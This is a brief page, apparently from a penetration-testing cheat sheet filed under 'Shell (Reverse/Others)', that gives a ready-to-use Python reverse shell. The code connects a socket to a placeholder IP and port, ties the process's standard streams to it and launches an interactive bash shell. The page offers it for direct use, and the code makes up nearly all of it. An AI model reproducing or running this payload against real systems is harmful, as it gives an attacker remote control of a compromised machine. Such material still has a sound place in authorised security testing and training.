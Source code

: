 ```yaml
---
title: Python
parent: Shell (Reverse/Others)
layout: default
nav_order: 9
---
```


Use the following for a quick Python reverse shell (you can use echo 'textbelow' line by line)

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("IP",PORT));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```